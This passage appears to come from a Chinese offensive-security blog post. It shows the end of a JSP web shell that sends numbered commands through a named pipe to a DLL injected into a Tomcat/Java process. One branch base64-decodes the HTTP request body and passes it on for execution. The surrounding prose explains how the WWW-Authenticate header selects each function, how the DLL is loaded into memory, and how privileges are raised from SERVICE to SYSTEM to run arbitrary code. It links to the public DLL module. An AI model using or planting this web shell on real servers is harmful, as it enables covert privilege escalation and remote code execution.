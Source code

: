 ```cpp
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("system")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x04);
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("system-run")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x05);
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("system-code")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x07);
            pipe.write(new sun.misc.BASE64Decoder().decodeBuffer(request.getInputStream()));
            pipe.close();
        }else if (method.equals("system-uncode")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x08);
            pipe.close();
        }

    }catch (Exception e){
        System.out.println(e.toString());
    }
%>
```

`java.io.RandomAccessFile`可以读写命令管道，通过修改Header头`WWW-Authenticate`来控制不同的功能，每个功能都有一个16进制的编号，剩余的Body内容将会被放到其他内存区域，以供功能函数调用读取，如此以来解决了每个请求都可以执行不同功能的问题，只发送一次DLL就可以将DLL模块打入Tomcat/Java进程的内存中执行，并且利用管道读写的特性也能够实现数据的回显，这个已经在示例代码中体现出来了。

SERVICE提权到SYSTEM权限并执行任意代码的流程示例图如下：

![](https://images.payloads.online/2022-08-11-22-08-44.png)

公开的DLL模块代码：[https://github.com/Rvn0xsy/j2osWin](https://github.com/Rvn0xsy/j2osWin)

演示视频：暂无。





